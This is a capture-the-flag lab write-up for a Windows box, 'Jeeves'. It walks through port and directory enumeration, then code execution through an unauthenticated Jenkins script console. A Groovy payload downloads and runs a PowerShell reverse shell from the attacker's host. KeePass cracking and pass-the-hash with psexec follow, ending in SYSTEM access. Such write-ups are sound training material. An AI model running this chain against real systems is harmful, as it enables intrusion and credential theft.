




# Jeeves

## Summary

This machine a medium rated box. Looking into the machine a Jenkins instance can be located on the machine. The Jenkins instance on the machine does not require any information and can therefore be exploited to gain code execution. After gaining user on the machine, a keepass file can be located on the machine. Upon cracking the file a hash can be retrieved allowing administrator access. 

## Enumeration

Using Nmap 4 different ports can be found on the computer. There are 2 different webservers one on port 80 and another on port 50000. As well as the webservers, there is an SMB instance on the computer. 

### Scan all ports

```bash
sudo nmap -p- 10.10.10.63 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 14:00 EDT
Nmap scan report for 10.10.10.63
Host is up (0.020s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 116.90 seconds
```

### More information

```bash
sudo nmap -p80,135,445,50000 -sC -sV -oA nmap/info 10.10.10.63
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 14:03 EDT
Nmap scan report for 10.10.10.63
Host is up (0.092s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h02m56s, deviation: 0s, median: 5h02m55s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-05-22T23:06:13
|_  start_date: 2021-05-22T23:02:02

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.07 seconds
```

## Port 50000

On port 50000 there is a webserver that is powered by Jetty. 



Using gobuster a new directory ```/askjeeves``` was found. This directory holds a Jenkins instance that does not require authentication.

```bash
gobuster dir -u http://10.10.10.63:50000/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/50000-directory.log                                                                                             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt                                   
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/22 14:18:26 Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]           
===============================================================
2021/05/22 14:25:56 Finished
===============================================================
```



This Jenkins instance can be used to gain code execution on the host system. This [github](https://github.com/gquere/pwn_jenkins) has different ways that we can attack a Jenkins instance. The easiest way I found to execute code was to use the script console provided by the Jenkins instance. 



I was able to get a shell on the system by using Groovy script to execute powershell.

```powershell
def command = """powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/rev.ps1')"""
def proc = command.execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```



## Getting root

Once on the machine a keepass file can be located in the users Documents folder. After donwloading the file to my machine I used ```keepass2john``` so I could crack the file with John. 

```bash
/opt/john/keepass2john CEH.kdbx > crackme
```

```bash
/opt/john/john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt crackme 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:29 DONE (2021-05-22 16:45) 0.03445g/s 1894p/s 1894c/s 1894C/s music21..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

After recovering the password the keepass file can be opened. In this file there is a hash. The hash is confirmed to be valid using CrackMapExec.

```bash
cme smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SM
Bv1:True)                                                                                 
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff
238cbe81fe00 (Pwn3d!)
```

Finally ```psexec.py``` from Impacket is used to gain a shell with the hash.

```bash
psexec.py Administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81f
e00
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file AQMSdTnC.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service bFMp on 10.10.10.63.....
[*] Starting service bFMp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### Note about root.txt

The file root.txt does not exist on the server directly. Instead there is a file called hm.txt that tells us to look deeper. On an NTFS file system there are alternative data streams that can be attached to files. These alternative data streams can be used to hide files. Using ```dir /r``` any alternative data streams get listed on the box. There are 2 different ways to see the file one with ```more``` and the other with powershell. 

```bash
C:\Users\Administrator\Desktop>dir /r
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk                                                           
               2 File(s)            833 bytes
               2 Dir(s)   7,480,741,888 bytes free

C:\Users\Administrator\Desktop>more < hm.txt:root.txt
{REDACTED}

C:\Users\Administrator\Desktop>powershell (Get-Content hm.txt -Stream root.txt)                                                  
b''{REDACTED}
```